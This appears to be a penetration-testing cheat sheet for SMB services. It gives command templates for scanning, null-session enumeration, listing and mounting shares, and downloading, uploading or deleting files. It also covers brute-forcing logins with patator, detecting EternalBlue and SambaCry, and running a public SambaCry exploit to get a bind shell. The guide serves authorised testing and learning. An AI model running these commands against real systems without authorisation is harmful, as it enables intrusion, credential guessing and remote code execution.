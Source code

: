 # SMB - Methodology

### Network scan

Nmap and nbtscan can be used to scan the network for SMB services:

```
nmap -v -p 139,445 -A -oA nmap_smb <RANGE/CIDR>
nbtscan -r <RANGE>
```

### Basic recon

The Nmap *smb-os-discovery.nse* script attempts to determine the operating
system, computer name, domain, workgroup, and current time over the SMB
protocol.

```
nmap --script smb-os-discovery.nse -p 445 <HOST>
nmap -sU -sS --script smb-os-discovery.nse -p U:137,T:139 <HOST>
```

### Null session

A null session refers to an unauthenticated NetBIOS session.  
A null session allows unauthenticated access to the shared files as well as a
large amounts of information about the machine, such as password policies,
usernames, group names, machine names, user and host SIDs.  
This Microsoft feature existed in SMB1 by default and was later restricted in
subsequent versions of SMB.  

To detect and retrieve information about the machine through a null session,
the enum4linux Perl script can be used:

```
enum4linux <HOST>
```

Combine network scan and null session enumeration:

```
nbtscan -s ' ' <RANGE> | cut -d ' ' -f 1 | while read -r line ; do
  enum4linux $line > enum4linux_$line.txt
done
```

### List accessible shares

List the shares available on the server from Linux using smbclient.  
If no credentials are provided, a null session will be attempted.  

Try ALL (nmap, smbmap, metasploit and smbclient) of them as they may held
different results depending of the system.   

```
nmap -v -sT -p 139,445 --script smb-enum-shares.nse <HOST>
nmap -v -sU -sT -p U:137,T:139,445 --script smb-enum-shares.nse <HOST>
nmap -v -sT -p 139,445 <HOST> --script smb-enum-shares --script-args smbdomain=<DOMAIN/WORKGROUP>,smbusername=<USERNAME>,smbpassword=<PASSWORD>
nmap -v -sT -p 139,445 <HOST> --script smb-enum-shares --script-args smbdomain=<DOMAIN/WORKGROUP>,smbusername=<USERNAME>,smbhash=<HASH>

# If no username provided, null session assumed
smbmap [-d DOMAIN] [-u USERNAME] [-p PASSWORD/HASH] (-H HOST | --host-file FILE)  

msf > use auxiliary/scanner/smb/smb_enumshares

smbclient -U "" -N -L \\<NETBIOS_NAME>
smbclient -U "" -N -L \\<IP>
# Some Windows servers do not support IP only and require the NetBIOS name too
smbclient -U "" -N -L \\<NETBIOS_NAME> -I <IP>
# To authenticate as USERNAME. --pw-nt-hash to specify an NT hash instead of a cleartext password
smbclient -U <USERNAME> [--pw-nt-hash] ...
```

### List and search files

List the shares available on the server from Linux using smbclient.  
If no credentials are provided, a null session will be attempted.

```
nmap -v -sT -p 139,445 <HOST> --script smb-enum-shares,smb-ls --script-args maxdepth=-1
nmap -v -sT -p 139,445 <HOST> --script smb-ls --script-args share=<SHARE>,maxdepth=-1
nmap -v -sT -p 139,445 <HOST> --script smb-enum-shares,smb-ls --script-args smbdomain=<DOMAIN/WORKGROUP>,smbusername=<USERNAME>,smbpassword=<PASSWORD>,maxdepth=-1
nmap -v -sT -p 139,445 <HOST> --script smb-enum-shares,smb-ls --script-args smbdomain=<DOMAIN/WORKGROUP>,smbusername=<USERNAME>,smbhash=<HASH>,maxdepth=-1

smbmap [-d DOMAIN] [-u USERNAME] [-p PASSWORD/HASH] -R <SHARE> (-H HOST | --host-file FILE)  
smbmap [-d DOMAIN] [-u USERNAME] [-p PASSWORD/HASH] -F <PATTERN> (-H HOST | --host-file FILE)  

msf > use auxiliary/scanner/smb/smb_enumshares
set ShowFiles true
set SpiderShares true
```

Smbmap or metasploit can be used to download, upload or delete a file:

```
smbmap [-d DOMAIN] [-u USERNAME] [-p PASSWORD/HASH] --download/--upload/--delete <PATH> (-H HOST | --host-file FILE)

msf > use auxiliary/admin/smb/download_file
```

### smbclient

The Linux smbclient CLI tool can be used to interact with the a SMB or SAMBA
share:

```
smbclient -U "" -N "\\\\<NETBIOS_NAME>\\<SHARE>"
smbclient -U "" -N "\\\\<IP>\\<SHARE>"

# To authenticate as USERNAME. --pw-nt-hash to specify an NT hash instead of a cleartext password
smbclient -U <USER> --pw-nt-hash ...
```

The following commands can be used through the client (partial list):

```
cd [directory] - change the remote system directory
lcd [directory] - change the local system directory
ls - list the contents of the current directory on the remote system
!ls - list the contents of the current directory on the local system
allinfo <file> - show all available info on a file (create time, change time, etc.)
put	<local name> [remote name] - upload a file to the remote system
get	<remote name> [local name] - download a file from the remote system
mput / mget - upload / download all the files matching the <mask>
```

To recursively upload / download a directory, use:

```
mask ""
recurse ON
prompt OFF
cd '<PATH_REMOTE_DIR'
lcd '<PATH_LOCAL_DIR'
mput / mget *
```

### Mount shares

The share may also be mounted using the Linux mount utility tool (replacement
  of smbmount):

```
# ro for read only and rw for read & write
# guest for null session or specify an user with username=
# vers=1.0 if any error arise

mount -t cifs //<HOST>//<SHARE> /mnt/<FOLDER> -o rw,guest,vers=1.0
mount -t cifs //<HOST>//<SHARE> /mnt/<FOLDER> -o rw,username=<USER>,password=<PASSWORD>,vers=1.0
```

### Authentication brute force

The patator tool can be used to brute force credentials on the service:

```
patator smb_login host=<HOST> user=FILE0 password=FILE1 0=<WORDLIST_USER> 1=<WORDLIST_PASSWORD> -x ignore:fgrep='NT_STATUS_LOGON_FAILURE'
```

### Known vulnerabilities

Nmap command can be used to check for the following exploits:

```
smb-vuln-ms08-067
smb-vuln-ms10-054
smb-vuln-ms10-061
smb-vuln-ms17-010 / cve-2017-7494
smb-vuln-regsvc-dos

nmap -v -p 139,445 --script=vuln <HOST>
```

###### Symlink Directory Traversal

Prerequisites:
  - Samba before 3.3.11, 3.4.x before 3.4.6, and 3.5.x before 3.5.0rc3
  - A writable share

Use the metasploit module auxiliary/admin/smb/samba_symlink_traversal to
exploit a directory traversal flaw and create a directory that will link to
the root filesystem.

https://www.exploit-db.com/exploits/33599/

###### EternalBlue & SambaCry

*Detect vulnerability*

The Nmap *smb-vuln-ms17-010.nse* and *smb-vuln-cve-2017-7494* scripts attempt
to detect if a SMBv1 server is vulnerable to the remote code execution
vulnerability MS17-010, a.k.a. EternalBlue (vulnerability exploited by WannaCry
and Petya ransomware) or CVE-2017-7494 aka SambaCry.

```
# EternalBlue
nmap --script smb-vuln-ms17-010.nse -p 445 <HOST>

# SambaCry
nmap --script smb-vuln-cve-2017-7494 -p 445 <HOST>
nmap --script smb-vuln-cve-2017-7494 --script-args smb-vuln-cve-2017-7494.check-version -p445 <IP>
```

If no share is available to unauthenticated users, the server may still be
vulnerable for authenticated users, meaning finding credentials would lead to
RCE.  
The following versions are vulnerable:

```
# EternalBlue
https://docs.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010

# SambaCry
Samba 3.x after 3.5.0 and 4.x before 4.4.14, 4.5.x before 4.5.10, and 4.6.x before 4.6.4
```

*EternalBlue*

*SambaCry*

The following exploit may be used to achieve RCE through the SambaCry
vulnerability:

```
# Source
https://github.com/opsxcq/exploit-CVE-2017-7494

# Usage
exploit.py [-h] -t <TARGET> -e <EXECUTABLE> -s <REMOTESHARE> -r <REMOTEPATH> [-u <USER>] [-p <PASSWORD>] [-P <REMOTESHELLPORT>]

# The libbindshell-samba.so of the repository can be used to get a bind shell on the server :
# -e libbindshell-samba.so -r <SHARE>/libbindshell-samba.so
```
